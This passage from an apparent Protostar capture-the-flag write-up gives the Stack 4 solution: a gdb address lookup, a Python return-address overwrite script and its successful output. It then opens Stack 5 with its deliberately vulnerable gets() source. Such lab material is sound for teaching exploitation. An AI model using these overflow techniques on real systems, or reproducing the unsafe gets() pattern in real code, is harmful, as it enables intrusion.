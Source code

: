 Here is how I find the address of **win**:

``` shell
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
```

This is my script to solve the level:

``` python 
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack("I", 0x80483f4)

print padding + eip
```

We beat the level. ^^

``` shell
user@protostar:~$ python script.py | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

## Stack 5

Description:

>Stack5 is a standard buffer overflow, this time introducing shellcode.
>
>This level is at /opt/protostar/bin/stack5
>
>Hints
>
>- At this point in time, it might be easier to use someone elses shellcode
>- If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

Source code:

``` c 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
